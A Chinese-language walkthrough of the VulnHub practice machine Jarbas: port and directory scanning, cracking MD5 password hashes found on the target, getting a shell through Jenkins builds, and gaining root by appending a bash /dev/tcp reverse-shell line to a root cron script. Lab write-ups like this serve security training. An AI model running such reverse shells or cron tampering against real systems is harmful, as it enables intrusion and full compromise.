









# jarbas

## 描述

如果你想继续你的黑客研究，请试试这台机器!

Jarbas 1.0——向90年代末怀旧的巴西搜索引擎致敬。

目标:得到根壳!

- **Name**: Jarbas: 1
- **Date release**: 3 Apr 2018
- **Author**: [Tiago Tavares](https://www.vulnhub.com/author/tiago-tavares,581/)
- **Series**: [Jarbas](https://www.vulnhub.com/series/jarbas,157/)
- **Jarbas.zip** (Size: 1.1 GB)
- **Download**: https://goo.gl/ZRWRKD
- **Download (Mirror)**: https://download.vulnhub.com/jarbas/Jarbas.zip

## 打靶

先确定靶机：

```shell
nmap -sn 192.168.40.0/24

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-29 08:01 EDT
Nmap scan report for 192.168.40.2
Host is up (0.0051s latency).
Nmap scan report for 192.168.40.132
Host is up (0.0024s latency).
Nmap scan report for 192.168.40.134
Host is up (0.0010s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 3.29 seconds
```

靶机：192.168.40.134

端口粗扫：

```shell
sudo nmap -sT --min-rate 10000 -p- 192.168.40.134 -oA nmapscan/ports

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-29 08:16 EDT
Nmap scan report for 192.168.40.134
Host is up (0.0011s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
8080/tcp open  http-proxy
MAC Address: 00:0C:29:4C:80:5E (VMware)

Nmap done: 1 IP address (1 host up) scanned in 5.20 seconds
```

端口详细扫描：

```shell
sudo nmap -sT -sV -sC -O -p22,80,3306,8080 192.168.40.134 -oA nmapscan/detail

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-29 08:25 EDT
Nmap scan report for 192.168.40.134
Host is up (0.00060s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Jarbas - O Seu Mordomo Virtual!
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
3306/tcp open  mysql   MariaDB (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 00:0C:29:4C:80:5E (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

```

象征性扫描一下udp端口：发现啥都没有

```
ing Nmap 7.94SVN ( https://nmap.org ) at 2024-03-29 08:36 EDT
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 1.48 seconds
```

nmap漏洞扫描，啥都没有

```shell
sudo nmap --script=vuln -p22,80,3306,8080 192.168.40.134 -oA nmapscan/vuln

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-aspnet-debug: ERROR: Script execution failed (use -d to debug)
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-trace: TRACE is enabled
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
3306/tcp open  mysql
8080/tcp open  http-proxy
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
MAC Address: 00:0C:29:4C:80:5E (VMware)

```

目录扫描，gobuster啥都没发现：

```shell
sudo gobuster dir -u http://192.168.40.134/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.40.134/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

dirsearch发现access文件：

```
└─$ sudo dirsearch -u 192.168.40.134
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/reports/_192.168.40.134/_24-03-29_10-13-56.txt

Target: http://192.168.40.134/

[10:13:56] Starting: 
[10:13:57] 403 -  213B  - /.ht_wsr.txt                                      
[10:13:57] 403 -  216B  - /.htaccess.bak1                                   
[10:13:57] 403 -  216B  - /.htaccess.save                                   
[10:13:57] 403 -  217B  - /.htaccess_extra                                  
[10:13:57] 403 -  214B  - /.htaccessBAK                                     
[10:13:57] 403 -  215B  - /.htaccessOLD2
[10:13:57] 403 -  218B  - /.htaccess.sample
[10:13:57] 403 -  206B  - /.htm                                             
[10:13:57] 403 -  207B  - /.html
[10:13:57] 403 -  214B  - /.htaccess_sc                                     
[10:13:57] 403 -  214B  - /.htaccessOLD
[10:13:57] 403 -  216B  - /.htaccess.orig
[10:13:57] 403 -  216B  - /.htaccess_orig                                   
[10:13:57] 403 -  216B  - /.htpasswd_test
[10:13:57] 403 -  212B  - /.htpasswds
[10:13:57] 403 -  213B  - /.httr-oauth
[10:14:00] 200 -  359B  - /access.html                                      
[10:14:07] 403 -  210B  - /cgi-bin/                                         
                                                                             
Task Completed              
```

访问连接出现如下所示：


肉眼观察应该是md5，去解密：

```
tiago:5978a63b4654c73c60fa24f836386d87（italia99）
trindade:f463f63616cb3f1e81ce46b39f882fd5（marianna）
eder:9b38e2b1e8b12f426b0d208a7ab6cb98（vipsu）
```

发现第三条可以登录进去，发现是jenkins，下面演示Jenkins利用方法：





填写反弹shell 的命令，bash、python、php等等



然后在攻击机上开启4444监听，最后执行构建





反弹shell成功



sudo -l发现没有什么权限，cat /etc/cron* 看看计划任务



发现每五分钟就会以root执行某个任务，给文件中追加反弹shell命令，kali新开一个4443端口接收

```shell
echo "bash -i >& /dev/tcp/192.168.40.132/4443 0>&1" >> /etc/script/CleaningScript.sh
```

等待一会儿：成功getshell



## 总结

端口扫描发现8080是jenkins后台登录，主要靠扫描目录发现/access.html （dirsearch是真的好用），进入access页面后发现有账号和md5加密的密码，解密后访问8080登录系统，最后利用jenkins漏洞反弹shell，在本机中发现定时任务，利用定时任务再次反弹shell提权，最终得到flag
